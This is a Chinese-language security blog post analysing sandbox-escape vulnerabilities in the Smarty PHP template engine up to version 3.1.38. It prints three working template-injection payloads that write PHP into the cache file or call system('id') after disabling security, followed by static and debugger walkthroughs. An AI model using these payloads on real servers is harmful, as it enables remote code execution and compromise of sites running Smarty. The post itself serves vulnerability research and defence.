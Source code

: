 > 原文链接: https://www.anquanke.com//post/id/235505 


# SmartyPHP沙箱逃逸分析


                                阅读量   
                                **171508**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">2</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p2.ssl.qhimg.com/t01e795371960f03978.jpg)](https://p2.ssl.qhimg.com/t01e795371960f03978.jpg)



## 介绍

Smarty是一个使用PHP写出来的模板引擎，是目前业界最著名的PHP模板引擎之一。它分离了逻辑代码和外在的内容，提供了一种易于管理和使用的方法，用来将原本与HTML代码混杂在一起PHP代码逻辑分离。简单的讲，目的就是要使PHP程序员同前端人员分离，使程序员改变程序的逻辑内容不会影响到前端人员的页面设计，前端人员重新修改页面不会影响到程序的程序逻辑，这在多人合作的项目中显的尤为重要。



## 沙箱

沙盒是一种安全机制，为运行中的程序提供的隔离环境。通常是作为一些来源不可信、具破坏力或无法判定程序意图的程序提供实验之用。<br>
沙盒通常严格控制其中的程序所能访问的资源，比如，沙盒可以提供用后即回收的磁盘及内存空间。在沙盒中，网络访问、对真实系统的访问、对输入设备的读取通常被禁止或是严格限制。从这个角度来说，沙盒属于虚拟化的一种。<br>
沙盒中的所有改动对操作系统不会造成任何损失。通常，这种技术被计算机技术人员广泛用于测试可能带毒的程序或是其他的恶意代码

在smarty php中<br>
sandbox默认为

```
&lt;?php
include_once('../libs/Smarty.class.php');
$smarty = new Smarty();
$smarty-&gt;enableSecurity();
$smarty-&gt;display($_GET['poc']);
```

更严格的沙箱机制为

```
&lt;?php
include_once('../libs/Smarty.class.php');
$smarty = new Smarty();
$my_security_policy = new Smarty_Security($smarty);
$my_security_policy-&gt;php_functions = null;
$my_security_policy-&gt;php_handling = Smarty::PHP_REMOVE;
$my_security_policy-&gt;php_modifiers = null;
$my_security_policy-&gt;static_classes = null;
$my_security_policy-&gt;allow_super_globals = false;
$my_security_policy-&gt;allow_constants = false;
$my_security_policy-&gt;allow_php_tag = false;
$my_security_policy-&gt;streams = null;
$my_security_policy-&gt;php_modifiers = null;
$smarty-&gt;enableSecurity($my_security_policy);
$smarty-&gt;display($_GET['poc']);
```



## payload

版本: Smarty Template Engine &lt;= 3.1.38

```
?poc=string:`{`$s=$smarty.template_object-&gt;smarty`}``{`$fp=$smarty.template_object-&gt;compiled-&gt;filepath`}``{`Smarty_Internal_Runtime_WriteFile::writeFile($fp,"&lt;?php+phpinfo();",$s)`}`
```

```
?poc=string:`{`$smarty.template_object-&gt;smarty-&gt;disableSecurity()-&gt;display('string:`{`system(\'id\')`}`')`}`
```

```
?poc=string:`{`function+name='rce()`{``}`;system("id");function+'`}``{`/function`}`

```



## 漏洞分析

### <a class="reference-link" name="%E9%9D%99%E6%80%81%E5%88%86%E6%9E%90"></a>静态分析

在process函数中我们可以发现首先判断了<br>
是否存在缓存文件<br>
如果不存在缓存文件就新建一个文件，如果存在缓存文件就include它<br>
所以payload执行两次就可以进行命令执行<br>
在此我们就在此进行了代码的插入

[![](https://p0.ssl.qhimg.com/t01ee739441bb207e6d.png)](https://p0.ssl.qhimg.com/t01ee739441bb207e6d.png)

我们看一下

[![](https://p1.ssl.qhimg.com/t01fa62fa6ceb121baf.png)](https://p1.ssl.qhimg.com/t01fa62fa6ceb121baf.png)

就可以将我们的payload写入缓存文件当中<br>
payload1 进行的就是再将缓存文件写入自己插入的代码<br>
payload2 进行的是先将smarty的enableSecurity()再指向了disableSecurity（）再进行命令执行<br>
payload3 进行的是Smarty_Internal_Runtime_TplFunction在tplFunctions的定义时没有正确的过滤所以导致的命令执行

payload 2、3可以绕过更严格的沙箱机制进行沙箱逃逸

### <a class="reference-link" name="%E5%8A%A8%E6%80%81%E8%B0%83%E8%AF%95"></a>动态调试

首先我们在display处下断点<br>
可以发现它进入了Smarty_Internal_TemplateBase的_execute

[![](https://p0.ssl.qhimg.com/t0139677508b6318f3b.png)](https://p0.ssl.qhimg.com/t0139677508b6318f3b.png)

我们可以看到<br>
首先执行_getSmartyObj();<br>
也就是新建了一个Smarty的对象<br>
之后进入if判断跳转到了这里

[![](https://p0.ssl.qhimg.com/t0126cd05581baccd56.png)](https://p0.ssl.qhimg.com/t0126cd05581baccd56.png)

我们可以看见是要新建一个template的对象<br>
执行之后可以发现已经将我们的payload储存到了template_resource当中

[![](https://p5.ssl.qhimg.com/t01b38c41edc86ff3a2.png)](https://p5.ssl.qhimg.com/t01b38c41edc86ff3a2.png)

再下面就是操作数据、合并数据等操作了<br>
我们直接进入render函数当中

[![](https://p4.ssl.qhimg.com/t018857c7fd007f2f3f.png)](https://p4.ssl.qhimg.com/t018857c7fd007f2f3f.png)

在这里我们可以发现由于缓存文件不存在因此我们要新建一个缓存文件

[![](https://p1.ssl.qhimg.com/t015c09adc5794a37e4.png)](https://p1.ssl.qhimg.com/t015c09adc5794a37e4.png)

这就是我们新建的cache的初始状态<br>
我们可以发现，我们就调用了writeFile将&lt;?php phpinfo;写入

[![](https://p4.ssl.qhimg.com/t01cecc0c4071cff4f5.png)](https://p4.ssl.qhimg.com/t01cecc0c4071cff4f5.png)

执行后我们就能发现缓存文件变为了我们插入的代码<br>
再次运行一次<br>
由于我们已经有了这个缓存文件<br>
所以就直接include这个文件了

[![](https://p0.ssl.qhimg.com/t017debf6f04d75359e.png)](https://p0.ssl.qhimg.com/t017debf6f04d75359e.png)

同理

执行命令执行时<br>
缓存文件变成了

[![](https://p4.ssl.qhimg.com/t01b36bcb5b2261f7e0.png)](https://p4.ssl.qhimg.com/t01b36bcb5b2261f7e0.png)

[![](https://md.byr.moe/uploads/upload_9387b2ba386c7a0da6ec424147b39fb3.png)](https://md.byr.moe/uploads/upload_9387b2ba386c7a0da6ec424147b39fb3.png)[![](https://p5.ssl.qhimg.com/t0106790c62171ecf4a.png)](https://p5.ssl.qhimg.com/t0106790c62171ecf4a.png)

[![](https://p2.ssl.qhimg.com/t01d8ff57f47d68465f.png)](https://p2.ssl.qhimg.com/t01d8ff57f47d68465f.png)

都可以执行命令执行之后include后获得回显



## 参考文章

[https://srcincite.io/blog/2021/02/18/smarty-template-engine-multiple-sandbox-escape-vulnerabilities.html](https://srcincite.io/blog/2021/02/18/smarty-template-engine-multiple-sandbox-escape-vulnerabilities.html)
